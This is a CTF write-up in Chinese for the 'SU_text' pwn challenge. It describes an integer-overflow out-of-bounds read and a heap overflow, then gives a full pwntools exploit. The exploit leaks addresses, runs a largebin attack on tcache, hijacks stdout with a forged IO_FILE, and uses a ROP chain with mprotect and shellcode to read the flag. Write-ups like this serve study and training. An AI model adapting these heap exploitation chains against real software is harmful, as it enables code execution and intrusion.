


# SU_text

程序存在两个漏洞，漏洞一为在write输出的时候存在整数溢出导致可以进行越界输出内容：



int类型的参数使得在泄露内容的时候可以越界读取内容。

漏洞二为在函数sub_1D5D中的逻辑操作，可以操纵堆块指针进行移动，从而导致了堆溢出：



因此利用上述功能，首先越界读取libc地址和堆地址，之后利用largebin attack攻击tcache_bins修改tcache bin的范围大小，然后将`_IO_2_1_stdout_`申请出来，修改其中的内容为fake_IO_FILE，printf调用时劫持IO_FILE执行mprotect函数进而执行shellcode进行orw读取flag内容。

exp：

```python
from pwn import *
r = process("./SU_text")
r = remote("8.141.11.58",10000)
elf = ELF("./SU_text")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context(arch="amd64",os="linux",log_level="debug")
context.terminal = ['terminator','-x','sh','-c']

def add_chunk(index,size):
    payload = p8(1)+p8(0x10)+p8(index)+p32(size)
    return payload

def delete_chunk(index):
    payload = p8(1)+p8(0x11)+p8(index)
    return payload

def jump():
    return p8(3)

def intovm():
    return p8(2)

def outovm():
    return p8(0)

def add(ints1,ints2):
    payload = p8(0x10)+p8(0x10)+p32(ints1)+p32(ints2)
    return payload

def sub(ints1, ints2):
    payload = p8(0x10)+p8(0x11)+p32(ints1)+p32(ints2)
    return payload

def multiply(ints1,ints2):
    payload = p8(0x10)+p8(0x12)+p32(ints1)+p32(ints2)
    return payload

def divide(ints1,ints2):
    payload = p8(0x10)+p8(0x13)+p32(ints1)+p32(ints2)
    return payload

def push(index,content):
    payload = p8(0x10)+p8(0x14)+p32(index)+content
    return payload

def pop(index):
    payload = p8(0x10)+p8(0x15)+p32(index)+p64(0)
    return payload

def show(index):
    payload = p8(0x10)+p8(0x16)+p32(index)
    return payload

def right(ints1,ints2):
    payload = p8(0x11)+p8(0x10)+p32(ints1)+p32(ints2)
    return payload

def left(ints1,ints2):
    payload = p8(0x11)+p8(0x11)+p32(ints1)+p32(ints2)
    return payload

def xor(ints1,ints2):
    payload = p8(0x11)+p8(0x12)+p32(ints1)+p32(ints2)
    return payload

def ors(ints1,ints2):
    payload = p8(0x11)+p8(0x13)+p32(ints1)+p32(ints2)
    return payload

def ands(ints1,ints2):
    payload = p8(0x11)+p8(0x14)+p32(ints1)+p32(ints2)
    return payload

def choice_heap(index):
    return p8(index)

def send_payload(payload):
    r.sendafter("bytes):\n",payload)


payload = add_chunk(0,0x418)+add_chunk(1,0x418)+add_chunk(2,0x418)+add_chunk(3,0x418)
payload += delete_chunk(0)+delete_chunk(2)+add_chunk(2,0x418)
payload += intovm()+choice_heap(2)+pop(0x8)+show(0x100000000-0xe)+pop(0)+show(0x100000000-0xe)+outovm()
payload += delete_chunk(1)+delete_chunk(2)+delete_chunk(3)+jump()
send_payload(payload)

heap_base = u64(r.recv(6).ljust(8,b'\x00')) - 0xad0
success("heap_base = "+hex(heap_base))
libc_base = u64(r.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00")) - 0x203b20
success("libc_base = "+hex(libc_base))

tcache_bins = libc_base + 0x2031e8
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']

heap_addr = heap_base + 0x19f0
mov_rsp_rdx_ret = libc_base + 0x000000000005ef5f
pop_rdi_ret = libc_base + 0x000000000010f75b
pop_rsi_ret = libc_base + 0x0000000000110a4d
pop_rdx_ret19 = libc_base + 0x0000000000066b9a
mprotect_addr = libc_base + libc.symbols['mprotect']

fake_io_addr = _IO_2_1_stdout_
fake_IO_FILE = p64(0)*9
fake_IO_FILE += p64(1)
fake_IO_FILE += p64(heap_base+0x19f0)
fake_IO_FILE += p64(mov_rsp_rdx_ret)
fake_IO_FILE = fake_IO_FILE.ljust(0x88, b'\x00')
fake_IO_FILE += p64(heap_base)
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, b'\x00')
fake_IO_FILE += p64(fake_io_addr+0x30)
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, b'\x00')
fake_IO_FILE += p64(libc_base+0x202238)
fake_IO_FILE += p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)

push_fake_IO_FILE = b''

for i in range(len(fake_IO_FILE)//8):
    push_fake_IO_FILE += push(8*i,fake_IO_FILE[8*i:8*(i+1)])

push_rops = b''

shellcode_addr = heap_base + 0x19f0 + 0x40 + 0x19
code = shellcraft.open("/flag")
code += shellcraft.read(3,heap_base,0x50)
code += shellcraft.write(1, heap_base, 0x50)
shellcode=asm(code)

rops = p64(pop_rdi_ret)+p64(heap_base)+p64(pop_rsi_ret)+p64(0x2000)+p64(pop_rdx_ret19)+p64(7)+p64(mprotect_addr)+b'a'*0x19+p64(shellcode_addr)+shellcode
rops = rops.ljust(0xc8,b'\x00')

for i in range(len(rops)//8):
    push_rops += push(8*i,rops[8*i:8*(i+1)])

payload = add_chunk(0,0x418)+add_chunk(1,0x4f8)+add_chunk(2,0x428)+add_chunk(3,0x4f8)+delete_chunk(2)+add_chunk(4,0x4f8)+delete_chunk(0)
payload += intovm()+choice_heap(1)+push(0,p64(0))+push(8,p64(0))+xor(1,2)*(0x108//4)+push(0x410,p64(tcache_bins-0x20))+outovm()
payload += add_chunk(5,0x4f8)+add_chunk(6,0x4f8)+delete_chunk(6)+delete_chunk(5)+jump()
send_payload(payload)

payload = intovm()+choice_heap(4)+xor(1,2)*(0x100//4)+push(0x400,p64(_IO_2_1_stdout_ ^ (heap_addr >> 12)))+outovm()
payload += add_chunk(7,0x4f8)+add_chunk(8,0x4f8)+jump()
send_payload(payload)

payload = intovm()+choice_heap(8)+push_fake_IO_FILE+outovm()
payload += intovm()+choice_heap(7)+push_rops+outovm()
payload += jump()
send_payload(payload)

r.interactive()
```


